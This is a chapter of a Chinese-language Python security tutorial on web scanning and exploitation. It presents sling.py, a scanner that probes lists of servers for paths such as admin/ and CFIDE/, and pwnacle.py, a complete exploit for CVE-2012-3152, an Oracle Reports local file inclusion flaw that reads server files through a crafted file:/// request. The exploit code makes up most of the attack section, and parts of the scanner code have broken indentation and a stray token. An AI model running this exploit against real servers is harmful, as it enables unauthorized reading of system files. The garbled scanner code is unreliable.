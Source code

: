 ##Web扫描和利用

本章将会介绍如何使用python去构建一个简单的web扫描器，并且写一个简单的exp。有些时候如果组织会发布出来一些漏洞测试的POC，然后使用者可以使用这些poc去检查自己系统的漏洞，但是在这种情况下，如果是等poc发布出来早以为时已晚!

在[第5章](https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x5.md)的时候告诉了大家基本的web请求,这一章我们讲两个新的内容:

* 检测特定的服务器列表.
* 利用一个Oracle的本地包含漏洞.

**Web扫描**

下面的这个脚本使用"-i"参数把文件的url连接传递到脚本里面，然后使用"-r"参数指定请求的路径,最好使用"-s"参数去指定检测是否含有CLI漏洞的字符串.

```
$ python sling.py -h
Usage: sling.py -i <file_with URLs> -r  -s [optional]
 
Options:
  -h, --help    show this help message and exit
  -i SERVERS    specify target file with URLs
  -r RESOURCES  specify a file with resources to request
  -s SEARCH     [optional] Specify a search string -s
```

存储url链接列表文件的文本格式应该是这样的——"http://www.google.com"一行，并且文件请求的路径应该是"request/"每行,例如:
```
reqs:
CFIDE/
admin/
tmp/
```

下面是一个脚本调用的例子但是没有指定检测字符串:

```
$ python sling.py -i URLs -r reqs
[+] URL: http://www.google.com/CFIDE/ [404]
[+] URL: http://www.google.com/admin/ [404]
[+] URL: http://www.google.com/tmp/ [404]
[+] URL: http://www.yahoo.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/CFIDE/ [404]
[+] URL: http://www.facebook.com/admin/ [404]
[+] URL: http://www.facebook.com/tmp/ [404]
```

现在当创建这些请求的时候，你可能想定义一个检测语句以减少误报，例如：你现在请求的路径是"/CFIDE/administrator/enter.cfm",你可以指定检测"CFIDE"的".cfm"页面是否有问题,这样就帮助你减少很多不必要耗费的时间.下面这个例子演示了上面脚本的完整示例:
```
$ python sling.py -i URLs -r reqs -s google
[+] URL: http://www.google.com/CFIDE/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/admin/ [404] Found: 'google' in ouput
[+] URL: http://www.google.com/tmp/ [404] Found: 'google' in ouput
```

正如你所看到的，这个脚本只会检测带有'google'关键字的url链接并且通过"STDOUT"显示在屏幕上面,这是一个很简单的脚本能够帮你快速的检索一些web资源,更进一步,我们可以指定服务器的版本号和漏洞版本,完整的脚本在教程的最后面:

**自动web攻击应用**

在几个月以前,一个安全研究员[NI@root](http://blog.netinfiltration.com/2013/12/12/hacking-oracle-reports-11g/)　发表过一篇详细的Oracle本地包含漏洞的报告,在报告发布的同时还发布了一个POC检测工具,用来检测你的服务器是否有bug,除此以外就没有任何工具了,该漏洞允许你通过发起以下请求连接来访问服务器的其他文件或目录,使用"file:///".

```
request = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///'
```
下面是调用这个脚本的语法:

```
$ python pwnacle.py <server> <resource>
```

pwnacle.py:

```
#######################################
# pwnacle.py - Exploits CVE-2012-3152 #
# Oracle Local File Inclusion (LFI)   #
#######################################
 
import urllib, sys, ssl, inspect
exec inspect.getsource(ssl.wrap_socket).replace("PROTOCOL_SSLv23","PROTOCOL_SSLv3") in dict(inspect.getmembers(ssl.wrap_socket))["func_globals"]
import socket
 
server = sys.argv[1]      # Assigns first argument given at the CLI to 'server' variable
dir = sys.argv[2]         # Assigns second argument given at the CLI to 'dir' variable
ip = server.split('/')[2] # formats the server by splitting the string based on the '/' which grabs the IP out of 'http://ip/'
req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///' #request format to exploit the vulnerability
 
print "Sending Request: "+server+req+dir+'"'
 
if 'http://' in server: # 使用 http的urllib模块  --如果是ssl协议就出抛出错误
        try:
                conn = urllib.urlopen(server+req+dir+'"') # 发送请求给服务器
                out = conn.readlines()
                for item in conn:
                        print item.strip()
        except Exception as e:
                print e
 
if 'https://' in server:  # Create web request with ssl module
        try:
                conn = ssl.wrap_socket(socket.create_connection((ip, 443)))
                request = 'GET '+req+dir+'"'+' HTTP/1.1'+'\n'
                request += 'Host: '+ip+'\n'
                request += 'User-Agent: Mozilla/5.0 '+'\n'
                request += 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'+'\n'
                request += 'Accept-Language: en-US,en;q=0.5'+'\n'
                request += 'Accept-Encoding: gzip, deflate'+'\n'
                request += 'Connection: keep-alive'+'\n'
                conn.send(request+'\n')
                print conn.recv()
                print conn.recv(20098)
 
        except Exception as e:
                print e
```

Sling.py:

```
#####################################
# sling.py - checks for resources   #
# Can seach for string in response  #
#####################################
 
from bs4 import BeautifulSoup
import sys, optparse, socket
from urllib import urlopen
 
class Colors:
        RED = '\033[91m'
        GREEN = '\033[92m'
 
def webreq(server, resources):                              # 主机地址,请求路径
        try:
                resource = []
                for item in open(resources, 'r'):           #对请求资源路径循环
                        resource.append(item.strip())            # 把文件内的链接添加到数组里面
                for item in resource:                       #循环数组并且创建请求
                        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.settimeout(5)                     # 设置连接超时时间
                        url = server.strip()+item.strip()        # 格式化请求url链接: "http://www.site.com/CFIDE/administrator/enter.cfm"
                        request = urlopen(url)                   # 创建请求
                        if search:                     # 如果变量 "search"为true (-s)
                                parsed = BeautifulSoup(request.read(), "lxml")  #使用BeautifulSoup解析
                                if search in str(parsed):             # 如果search存在就输出
                                        print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"] Found: '"+search+"' in ouput"
                        elif request.getcode() == 404:                # 获取http状态码
                                print Colors.RED+"[+] URL: "+url+" ["+str(request.getcode())+"]"    # 打印url的状态码
               elif request.getcode():
                    print Colors.GREEN+"[+] URL: "+url+" ["+str(request.getcode())+"]"
 
        except:pass
 
def main():
# 创建一个 CLI功能函数并且存储到变量里面
parser = optparse.OptionParser(sys.argv[0]+' '+ \
        '-i <file_with URLs> -r  -s [optional]')
        parser.add_option('-i', dest='servers', type='string', help='specify target file with URLs')
        parser.add_option('-r', dest='resources', type='string', help='specify a file with resources to request')
        parser.add_option('-s', dest='search', type='string', help='[optional] Specify a search string -s ')
        (options, args) = parser.parse_args()
        servers=options.servers
        resources=options.resources
        global search; search=options.search
 
        if (servers == None) and (resources==None):              # 检查 CLI是否有效
                print parser.usage                     # if not print usage
                sys.exit(0)
 
        if servers:
                for server in open(servers, 'r'):           # 循环文件里面的url连接
                        webreq(server, resources)           # 调用 webreq 函数
                        function
 
if __name__ == "__main__":
      main()
      
```
